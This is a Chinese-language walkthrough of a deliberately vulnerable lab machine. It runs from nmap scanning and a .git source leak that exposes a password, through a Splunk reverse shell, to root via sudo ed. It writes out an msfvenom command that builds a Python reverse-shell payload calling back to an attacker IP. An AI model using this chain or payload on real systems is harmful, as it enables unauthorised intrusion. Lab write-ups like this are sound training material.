[TOC]

# 信息收集

```
arp-scan -l
```

得到ip192.168.174.174

```
nmap -p- --min-rate 10000 192.168.174.174 | awk -F ' ' '{print$1}' | awk -F '/' '{print$1}' | tr '\n' ','
```

直接复制输出的端口，分别进行tcp详细扫描，漏洞扫描和udp扫描

## TCP详细扫描



- 55555端口和61337端口都是http服务
- 8089端口是ssl/http服务
- 55555端口存在一个/.git目录，可能存在.git泄露

## UDP扫描



端口都是关闭的，不用管

## 漏洞扫描



没有用信息

# http服务端口分析

- 8089端口，别人好像能打开，但我不知道为什么
- 55555端口和61337端口都能正常打开



直接访问55555端口的.git目录，发现Git源码泄露

- 在/logs/HEAD目录发现



将其克隆到本地方便查看和查看历史记录

```
cd flappy
```

```
git log -p
```

查看git的历史记录（包括增删改）

翻几页后发现



得到sputnik的密码，因为没有开放ssh端口，并且发现61337端口是一个登录界面，尝试登录



- 这更像是一个框架，在公开信息中搜索关于splunk的漏洞



有一个关于splunk_shells的仓库（https://github.com/TBGSecurity/splunk_shells），进去发现我们可以利用，并使用反弹shell拿到权限

根据仓库中的操作





成功连接

- 这个反弹shell是靶机连接攻击机器，得到的shell的父进程来自靶机的操作系统，这个shell不能进行tty升级，因此我们需要在shell中再次执行一个反弹shell，这样父进程就是我们指定的文件，更加稳定

```
msfvenom -p cmd/unix/reverse_python lhost=192.168.174.128 lport=4444 -f raw
```

- 单阶段：一段 python 一行代码，直接执行，**不需要额外下载 stager**；适合命令注入、webshell 直接执行一行 python 代码拿 shell
- 输出的就是原生 bash shell（dumb shell，默认**不带 pty**，拿到手依然需要手动升级 TTY）
- 依赖靶机有 python 环境（python2 为主，很多新版靶机只有 python3，这个 payload 会失效）



成功连接



成功进行tty升级

```
sudo -l
```



- 发现ed具有root的执行权限





成功提权